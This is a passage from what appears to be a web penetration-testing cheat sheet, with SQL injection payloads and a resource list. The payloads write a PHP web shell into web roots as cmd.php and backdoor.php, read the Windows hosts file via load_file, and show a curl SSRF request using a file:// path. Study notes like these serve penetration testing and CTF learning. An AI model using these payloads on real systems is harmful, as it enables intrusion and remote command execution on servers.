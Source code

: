      #Linux
     ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
     
     #Windows
     ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
	
	
Example SQLi on Windows:
#testing

    http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')

#exploitation

    http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

# SSRF   
Server requests resource of behalf of the web client.    
SSRF example using curl:    

    curl -v "https://site.org/get.php?logo=file://etc/hosts"    #local file reference   
	
# Resources  

## Cheat Sheets 
[SQLi cheat sheet](https://guif.re/sqli)  
[OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/Glossary.html)    
https://websec.ca/kb/sql_injection   
https://pentestmonkey.net/category/cheat-sheet/sql-injection   
https://sqlwiki.netspi.com/    
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/    

## Further Reading 
[OWASP Web App Testing Guide](https://owasp.org/www-project-web-security-testing-guide/stable/)    
[Bypassing File Upload Restrictions ](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)      
[Web vulnerabilities to gain access to the system - paper](https://www.exploit-db.com/papers/13017/)     

File Inclusion
[RFI to LFI](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) 

Basic SQLi 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html     
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-2-Basic-of-SQL-for-SQLi.html       
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-3-Basic-of-SQL-for-SQLi.html      
http://www.sqlinjection.net/login/    

## Sources 
https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/web 
